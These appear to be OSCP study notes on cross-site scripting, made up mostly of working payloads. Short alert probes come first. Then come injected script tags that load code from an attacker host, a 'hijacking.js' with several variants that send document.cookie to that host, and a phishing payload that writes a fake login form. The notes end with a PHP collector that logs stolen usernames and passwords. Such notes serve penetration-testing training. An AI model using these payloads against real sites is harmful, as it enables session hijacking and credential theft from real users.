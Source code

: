Payload

https://www.youtube.com/watch?v=KHwVjzWei1c
https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/XSS%20Injection#blind-xss

```js
<script>alert(window.origin)</script>
<script>alert(document.domain)</script>
<img src="" onerror="alert(window.origin)">
```

Session Hijacking

testing payload

https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/XSS%20Injection#blind-xss

```js
// sudo python3 -m http.server 80
// remote script
<script src="http://<attacker ip>"></script>
// note that html in the front
'><script src="http://<attacker ip>"></script>
"><script src="http://<attacker ip>"></script>
```

hijacking.js

```js
// enter a workable payload into the vulnerability input field
"><script src="http://<attacker ip>/hijacking.js"></script>
```

```js
// hijacking.js
var oReq = new XMLHttpRequest();
oReq.open('GET', 'http://<attacker ip>/?output='+document.cookie, true);
oReq.send()
// hijacking.js
document.location='http://<attacker ip>/?output='+document.cookie;
// hijacking.js
new Image().src='http://<attacker ip>/?output='+document.cookie;
// and so on
```

using cookie to access (e.g., Firefox DevTools)

![image](https://github.com/tedchen0001/OSCP-Notes/blob/master/Pic/XSS/XSS_Login.png)

Phishing

```js
// confirm that the request can be sent out normally
document.write('<div><form id="form" action="http://<attacker ip>/phishing.php"><input type="text" id="username" name="username"><input type="password" id="pass" name="password"><button type="submit">Submit form</button></form></div>');
```

```php
# sudo php -S 0.0.0.0:80
<?php
if (isset($_GET['username']) && isset($_GET['password'])) {
    $file = fopen("phishing.log", "a+");
    fputs($file, "Username: {$_GET['username']} | Password: {$_GET['password']}\n");
    header("Location: http://<target ip>/index.php");
    fclose($file);
    exit();
}
?>
```